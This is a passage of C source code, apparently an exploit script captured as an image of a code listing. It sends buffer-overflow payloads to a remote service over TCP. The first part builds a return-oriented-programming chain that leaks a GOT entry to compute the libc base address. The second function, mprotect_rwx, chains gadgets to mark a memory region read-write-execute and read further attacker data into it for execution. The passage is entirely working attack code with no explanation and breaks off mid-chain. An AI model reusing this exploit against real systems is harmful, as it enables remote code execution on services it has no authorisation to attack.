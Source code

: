 ```c

    uint8_t chain[N0], pleak[8];
    memset(chain, 0x41, FRAME_OFFSET);

    u64_to_bytes(0xdeadbeef,      ENDIAN_LE, chain + FRAME_OFFSET +   0);
    u64_to_bytes(POP_RBX_RBP_R12, ENDIAN_LE, chain + FRAME_OFFSET +   8);
    u64_to_bytes(WRITE_GOT,       ENDIAN_LE, chain + FRAME_OFFSET +  16);
    u64_to_bytes(WRITE_GOT,       ENDIAN_LE, chain + FRAME_OFFSET +  24);
    u64_to_bytes(WRITE_GOT,       ENDIAN_LE, chain + FRAME_OFFSET +  32);
    u64_to_bytes(MOV_RSI_RBX,     ENDIAN_LE, chain + FRAME_OFFSET +  40);
    u64_to_bytes(0xdeadbeef,      ENDIAN_LE, chain + FRAME_OFFSET +  48);
    u64_to_bytes(0xdeadbeef,      ENDIAN_LE, chain + FRAME_OFFSET +  56);
    u64_to_bytes(0x00000000,      ENDIAN_LE, chain + FRAME_OFFSET +  64);
    u64_to_bytes(0x00000001,      ENDIAN_LE, chain + FRAME_OFFSET +  72);
    u64_to_bytes(0x00000000,      ENDIAN_LE, chain + FRAME_OFFSET +  80);
    u64_to_bytes(CALL_WRITE,      ENDIAN_LE, chain + FRAME_OFFSET +  88);
    u64_to_bytes(0xdeadbeef,      ENDIAN_LE, chain + FRAME_OFFSET +  96);
    u64_to_bytes(0xdeadbeef,      ENDIAN_LE, chain + FRAME_OFFSET + 104);
    u64_to_bytes(0xdeadbeef,      ENDIAN_LE, chain + FRAME_OFFSET + 112);
    u64_to_bytes(REPLAY,          ENDIAN_LE, chain + FRAME_OFFSET + 120);

    chain[ FRAME_OFFSET + 128 ] = 0x0a;

    tcp.send(sock, "161\x0a", 4);
    tcp.send(sock, chain,     N0);
    tcp.recv(sock, pleak,     8);

    return bytes_to_u64(pleak, ENDIAN_LE) - WRITE_GLIBC;
}

void mprotect_rwx(sock_t *sock, const uint64_t libbase) {

    uint8_t chain[N1];
    memset(chain, 0x41, FRAME_OFFSET);

    u64_to_bytes(0xdeadbeef,              ENDIAN_LE, chain + FRAME_OFFSET +   0);
    u64_to_bytes(libbase + POP_RDI,       ENDIAN_LE, chain + FRAME_OFFSET +   8);
    u64_to_bytes(0x00404000,              ENDIAN_LE, chain + FRAME_OFFSET +  16);
    u64_to_bytes(POP_RBX_RBP_R12,         ENDIAN_LE, chain + FRAME_OFFSET +  24);
    u64_to_bytes(0x00003000,              ENDIAN_LE, chain + FRAME_OFFSET +  32);
    u64_to_bytes(0x00003000,              ENDIAN_LE, chain + FRAME_OFFSET +  40);
    u64_to_bytes(0x00003000,              ENDIAN_LE, chain + FRAME_OFFSET +  48);
    u64_to_bytes(MOV_RSI_RBX,             ENDIAN_LE, chain + FRAME_OFFSET +  56);
    u64_to_bytes(0xdeadbeef,              ENDIAN_LE, chain + FRAME_OFFSET +  64);
    u64_to_bytes(0xdeadbeef,              ENDIAN_LE, chain + FRAME_OFFSET +  72);
    u64_to_bytes(0x004040b0,              ENDIAN_LE, chain + FRAME_OFFSET +  80);
    u64_to_bytes(0x004040b0,              ENDIAN_LE, chain + FRAME_OFFSET +  88);
    u64_to_bytes(0x004040b0,              ENDIAN_LE, chain + FRAME_OFFSET +  96);    
    u64_to_bytes(libbase + POP_RDX,       ENDIAN_LE, chain + FRAME_OFFSET + 104);
    u64_to_bytes(0x00000007,              ENDIAN_LE, chain + FRAME_OFFSET + 112);
    u64_to_bytes(libbase + MPROT_SYSCALL, ENDIAN_LE, chain + FRAME_OFFSET + 120);
    u64_to_bytes(MOV_RSI_RBX,             ENDIAN_LE, chain + FRAME_OFFSET + 128);
    u64_to_bytes(0xdeadbeef,              ENDIAN_LE, chain + FRAME_OFFSET + 136);
    u64_to_bytes(0xdeadbeef,              ENDIAN_LE, chain + FRAME_OFFSET + 144);
    u64_to_bytes(0x00000000,              ENDIAN_LE, chain + FRAME_OFFSET + 152);
    u64_to_bytes(0x00000001,              ENDIAN_LE, chain + FRAME_OFFSET + 160);
    u64_to_bytes(0x00000000,              ENDIAN_LE, chain + FRAME_OFFSET + 168);  
    u64_to_bytes(libbase + POP_RDI,       ENDIAN_LE, chain + FRAME_OFFSET + 176);
    u64_to_bytes(0x00000000,              ENDIAN_LE, chain + FRAME_OFFSET + 184);
    u64_to_bytes(libbase + POP_RDX,       ENDIAN_LE, chain + FRAME_OFFSET + 192);
    u64_to_bytes(0x10000000,              ENDIAN_LE, chain + FRAME_OFFSET + 200);
    u64_to_bytes(libbase + READ_SYSCALL,  ENDIAN_LE, chain + FRAME_OFFSET + 208);
    u64_to_bytes(0x004040b0,              ENDIAN_LE, chain + FRAME_OFFSET + 216);
```